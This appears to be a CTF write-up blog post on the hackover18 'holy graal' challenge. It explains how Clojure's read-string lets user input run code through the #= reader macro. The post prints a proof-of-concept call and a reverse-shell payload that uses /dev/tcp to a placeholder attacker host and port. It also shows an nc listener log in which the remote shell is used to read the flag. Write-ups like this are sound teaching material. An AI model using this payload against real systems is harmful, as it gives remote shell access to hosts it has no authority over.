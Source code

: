 ```yaml
---
layout: post
title: ctf 0x02 / holy graal [PWN]
category: ctf
tags: [ctf, writeup, clojure, shellraisers, hackover18, pwn, shell, interactive]
---
```

## Shellraisers and the Holy Graal


> Everybody keeps talking about this new JIT. I think it is more secure, wouldn't you agree?
>   
> compiled with: native-image -H:+ReportUnsupportedElementsAtRuntime

We get the [main.clj](/files/ctf_0x02/main.clj) file, which is a Clojure script! Oh boy, that's another language I had nothing to do with (and neither had anyone from our team as far as I know). That does, however, explain the challenge title! "holy graal", since it's probably running on the [Graal VM](https://www.graalvm.org/). Okay, but back to the topic.

<!--more-->

Other than the script, we get access to a host that exposes something like an interactive shell:


```
Welcome to HolyGraal version 1.0.0-rc1
Everybody knows that keeping track of brackets is hard in LISP languages.
We now introduce: verify brackets as a service.
1: Send string
2: Exit
1
()
Good job, you know how to balance brackets. Now go, get the flag.
1: Send string
2: Exit
1
((())
You need to work on your balancing skills.
1: Send string
2: Exit
```

```clojure
(ns main
  (:require [clojure.java.shell :as shell])
  (:gen-class))

;; We want to be sure none of our calls relies on reflection.
(set! *warn-on-reflection* 1)


(defmulti option identity)
(defmethod option "1" [_]
  (try
    (-> (read-line)
        (read-string))
    (println "Good job, you know how to balance brackets. Now go, get the flag.")
    (catch Exception e
      (println "You need to work on your balancing skills."))))

(defmethod option "2" [_]
  (println "Exiting.")
  (System/exit 0))

(defmethod option :default [_]
  (println "Invalid choice."))

(defn- print-options []
  (println "1: Send string")
  (println "2: Exit"))


(defn- get-graal-version []
  (->> (clojure.java.shell/sh "native-image" "--version")
       :out
       clojure.string/trim-newline
       (re-find #"\d.\d.\d-\w+")))

(defn -main []
  (println "Welcome to HolyGraal version" (get-graal-version))
  (println "Everybody knows that keeping track of brackets is hard in LISP languages.")
  (println "We now introduce: verify brackets as a service.")
  (print-options)
  (loop [input (read-line)]
    (option input)
    (print-options)
    (recur (read-line))))
```

Hm... since it's a Lisp-like language, how is the bracket balance actually verified? Let's take a look at the code:

```clojure
(defmulti option identity)
(defmethod option "1" [_]
  (try
    (-> (read-line)
        (read-string))
    (println "Good job, you know how to balance brackets. Now go, get the flag.")
    (catch Exception e
      (println "You need to work on your balancing skills."))))
```

Okay, sooo... that reads a line and then... wait, what the hell is `read-string`? Let's check the docs:

> Reads one object from the string s. Optionally include reader
options, as specified in read.

Hey, that's pretty cool! You know what's even *more* cool? The next line:

>  Note that read-string can execute code (controlled by *read-eval*),
and as such should be used only with trusted sources.

Now we're talking! I've actually done a decent amount of information digging (also known as Google searching), that resulted in me findings [this discussion](https://groups.google.com/forum/#!topic/clojure/YBkUaIaRaow/discussion). It shows a simple PoC for an RCE payload via `read-string`:

```clojure
user=> (read-string "#=(clojure.java.shell/sh \"echo\" \"hi\")") 
{:exit 0, :out "hi\n", :err ""}
```

We don't get our output back in the challenge, but this isn't exactly a problem, is it? At this point I grabbed a couple of revshell ideas I had from [ub3rsec's cheatsheet](https://ub3rsec.github.io/pages/rev-shell-cheatsheet.html) and from [pentest monkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) for Java (as Clojure is JVM-based) and mixed them with the PoC above to get this:

```clojure
#=(clojure.java.shell/sh "/bin/bash" "-c" "exec 5<>/dev/tcp/attackerip/attackerport;cat <&5 | while read line; do $line 2>&5 >&5; done")
```

Then I just ran the listener on my box, dropped the payload and waited for the session to call home. After it connected I read the `flag.txt` file and got the flag:

```
$ nc -nlvp 31337
Listening on [0.0.0.0] (family 0, port 31337)
Connection from [188.166.163.88] port 31337 [tcp/*] accepted (family 2, sport 41364)
ls
flag.txt
holy_graal-1.3.3.7-standalone
cat flag.txt
hackover18{n3v3r_tru5s7_u53r_1npu7}
```

**Flag:** `hackover18{n3v3r_tru5s7_u53r_1npu7}`

Can't deny, I enjoyed that one ;-)

Cheers!
